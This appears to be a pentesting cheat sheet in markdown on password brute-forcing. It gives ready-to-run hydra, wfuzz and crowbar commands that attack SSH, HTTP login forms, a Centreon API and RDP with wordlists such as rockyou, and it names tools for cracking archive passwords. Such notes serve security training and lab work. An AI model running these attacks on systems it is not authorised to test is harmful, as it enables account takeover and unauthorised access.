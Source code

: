 ## hydra
For ssh try shorter password lists like ``/usr/share/wfuzz/wordlist/others/common_pass.txt``
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-get
# specify number of threads with -t to avoid getting blocked
hydra -l user -P wordlist ssh://10.10.10.10 -f -V -t 3
```
Get help for service module
```
hydra http-form-post -U
```
Example:
```
hydra -l admin -P <PASSLIST> <IP> http-post-form "/index.php:username=^USER^&password=^PASS^&login=login:Login failed" -V
# use -f to stop the attack once a result is found
```

Where first field (delimited by :)  is URL. Second field contains parameters and third contains a string within the response from webpage which indicates that the login failed.
## wfuzz

``` bash
wfuzz -u http://10.10.10.157/centreon/api/index.php?action=authenticate -d ’username=admin&password=FUZZ’ -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt --hc 403
wfuzz --hc 404 -c -z file,big.txt http://10.10.26.165/site-log.php\?date=FUZZ
```

## RDP
* [crowbar](https://github.com/galkan/crowbar)
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
In case of error: "File: /usr/share/wordlists/rockyou.txt doesn't exists" it is due encoding issues.
Convert list with:
```
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > rockyou_utf8.txt
````

## Archives
Bruteforce password protected .zip or .rar file
* fcrackzip
* rarcrack
* john the ripper => zip2john, rar2john

# Cracking Hashes
:information_source: Password Lists: [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
